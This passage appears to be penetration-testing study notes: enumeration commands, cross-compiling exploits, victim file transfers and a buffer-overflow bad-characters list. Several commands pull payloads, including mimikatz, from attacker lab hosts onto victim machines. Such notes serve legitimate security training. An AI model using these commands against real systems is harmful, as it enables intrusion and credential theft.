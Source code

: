 #### Processes Running
`ps axu` 

#### Check Services Listening
`ss -lnpt`

#### Cron Jobs
`ls -la /etc/cron.d`  prints cron jobs which are already present in cron.d


### Windows

`powershell -c "Invoke-WebRequest -Uri http://10.10.14.10/39719.ps1 -OutFile ./39719.ps1` File transfer for dummies 

`systeminfo` to get good info.

`tasklist /SVC` to view running services.

`sc queryex type=service state=all` to query all services, whether or not they're running.

#### Finding Kernel Exploits
[Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

#### Cross Compile Exploits
`i686-w64-mingw32-gcc shell.c -o shell.exe` 32bit Windows
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32` 

`x86_64-w64-mingw32-gcc 271.c -o 271.exe` 64bit Windows

## File Transfers  

### Windows XP (FTP Method)  
1. Start FTP server on kali via `sudo python3 -m pyftpdlib -p 21`.
2. On victim...
```
echo open 192.168.119.150>ftp.txt
echo USER anonymous a>>ftp.txt
echo binary>>ftp.txt
echo GET file.exe>>ftp.txt
echo bye>>ftp.txt
ftp -v -n -s:ftp.txt
```

### Windows Powershell 4.0 & 5.0
If no `wget` alias, try `Invoke-WebRequest "http://192.168.119.229/mimikatz64.exe" -OutFile "C:\Users\administrator.xor\Desktop\m.exe"`.

## Buffer Overflow

### Bad Characters
```python
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
```